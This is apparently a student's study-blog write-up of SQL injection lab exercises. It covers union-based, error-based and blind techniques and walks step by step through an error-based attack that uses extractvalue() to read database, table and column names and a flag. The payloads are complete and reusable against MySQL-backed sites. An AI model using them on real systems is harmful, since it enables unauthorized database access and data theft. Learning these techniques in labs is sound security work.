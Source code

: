 ```yaml
---
title: "Week 7 - Error-based / Blind SQL Injection"
date: 2025-06-03
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


## 1. Types of SQL Injection (Union-based, Error-based, Blind)

SQL Injection techniques can generally be categorized into the following three types:

**Union-based SQL Injection**

**Error-based SQL Injection**

**Blind SQL Injection**

### (1) Union-based SQL Injection
Condition: The result of the SQL query is directly displayed on the page.
purpose: Use **UNION SELECT** to append custom queries and extract data by injecting into the output.

``` 
UNION SELECT 1,2,3,4 #
```

→ it is important to match the number of columns 
→ You can insert values into visible columns to leak data

### (2) Error-based SQL Injection

Condition: The server displays detailed SQL error messages.
Goal: Trigger an error that includes the result of a **SELECT** query within the error message itself.

Syntax errors are usually not helpful
Logic errors are more effective for exposing data in the error

Recommended function: __extractvalue()__

``` 
extractvalue('1', concat(0x3a, (select 'normaltic')))
``` 
Attack Format:

``` 
' AND extractvalue('1', concat(0x3a, (SQL))) AND '1'='1
``` 
Typical Steps:

Get the database name
→ SELECT database()

Get table names
→ SELECT table_name FROM information_schema.tables WHERE table_schema='segfault_sql' LIMIT 0,1

Get column names
→ SELECT column_name FROM information_schema.columns WHERE table_name='game' LIMIT 0,1

### (3) Blind SQL Injection

Condition: No data is printed, and no error messages are shown (the response differs only by true/false conditions).

Goal: Extract data by asking true/false questions and observing changes in the server's response.

Basic Format:

``` 
' AND (condition) AND '1'='1
```

Example:

``` 
' AND substr((select 'test'), 1,1) = 't' AND '1'='1
```

Useful Functions:
- substr(string, position, length) → Extract part of a string
- ascii(char) → Get ASCII code of a character
- SELECT database() → Get current database name

## 2. Error Based Injection 
To use error-based SQL injection, we first need to trigger a logical error in the backend.

Before that, let’s understand the difference between syntax errors and logical errors.

- Syntax Error
: Occurs when a query violates SQL grammar rules.
For example: **select * from games where name = '$over**
This query is missing a closing quote ('), which makes it invalid SQL and prevents execution.
![image](https://github.com/user-attachments/assets/f9baa0b9-ed34-4a93-9807-da3a30000905)

- Logical Error
: Occurs when the query is syntactically valid, but the logic or intended behavior is broken.
For example: **SELECT * FROM users WHERE username = '$user' OR 1=1;**
The query is technically correct, but OR 1=1 always returns true, causing the database to return all users, which defeats the intended purpose.


Just like UNION-based injection, error-based injection can also be broken down into a 7-step process to extract data.



### Step 1. Find the Injection Point
 You can identify whether your input is injected into the SQL query by trying a single quote **'** and observing how the server reacts.
  ![image](https://github.com/user-attachments/assets/de405a18-815a-4e39-9cbd-e5a321a39509)
### Step 2. Choose a Function that Outputs an Error
In this case, we’ll use the extractvalue(xml, xpath_expr) function.
extractvalue() function:
- First argument: XML string
- Second argument: XPath expression (used to extract a value from the XML)
Example XML:
``` 
<user>
  <name>Jimin</name>
</user>
```
Query:
```
extractvalue(xml_string, '/user/name')
-- Returns: Jimin
```

However, instead of using it correctly, we’ll use it **incorrectly** on purpose to force an error message. If the website is configured to show SQL error messages, we can inject our desired value into the error message itself..

How to Trigger the Error?
We intentionally pass a malformed XPath expression as the second argument:

``` 
extractvalue('1', ':abc')
```

Since **:abc** is not valid XPath, this triggers -> **XPATH syntax error: ':abc'** 
Now, we can replace abc with any value we want to extract — and it will be revealed inside the error message.

### Step 3. Create the Injection Format

Initially, you might think the following works: normaltic' AND extractvalue('1', (SELECT '____')) AND '1'='1
But this doesn't actually cause an error — XPath must be malformed.
You might then try: normaltic' AND extractvalue('1', :(SELECT 'value')) AND '1'='1
But this results in SQL syntax error due to the : operator, which is invalid in MySQL.
Correct approach is to use concat() to merge values and trigger a parsing error inside XPath: normaltic' AND extractvalue('1', concat(0x3a, (SELECT 'value'))) AND '1'='1
The reason for appending AND '1'='1' is to balance the final quote and avoid breaking SQL syntax.

Final Attack Format:
``` 
normaltic' and extractvalue('1', concat(0x3a, (select 'test'))) and '1'='1
normaltic' and extractvalue('1', concat(0x3a, (select '_______'))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/25b10693-e16c-4f79-b697-8ac89e013d5f)


### Step 4. Get DB name
Now that we have a working payload format, we can extract data. For example, to get the current database name:
``` 
normaltic' and extractvalue('1', concat(0x3a, (select database()))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/18c23230-20ed-42bf-a699-6736a8c75a03)

### Step 5. Get Table name
Just like in UNION injection, you can use information_schema.tables to list table names.
``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli'))) and '1'='1
```
![image](https://github.com/user-attachments/assets/a702e4ec-23fd-4876-ad94-fbee5656a26e)
Because SELECT table_name returns multiple rows, which concat() and extractvalue() can’t handle. Fix it by limiting to one row:

``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli' limit 0,1))) and '1'='1
```
![image](https://github.com/user-attachments/assets/077d5b9c-3713-4d6d-b4ce-587946b52473)

### Step 6. Get column name
Using the same method with information_schema.columns, we can extract column names:

``` 
normaltic' and extractvalue(1, concat(0x3a, ( select column_name from information_schema.columns where table_name='flagTable'limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f54dedaa-f141-4f6b-8a30-cccb7e6ac021)
![image](https://github.com/user-attachments/assets/d48916ca-a473-4eb8-8991-9fbb77e5cdac)

### Step 7. Extract Data (FLAG)
Finally, let’s extract actual data — for example, a flag from the flag column:
```
normaltic' and extractvalue(1, concat(0x3a, (select flag from flagTable limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f2df5eb6-8462-423d-b599-3c404674abc4)

Flag successfully extracted.





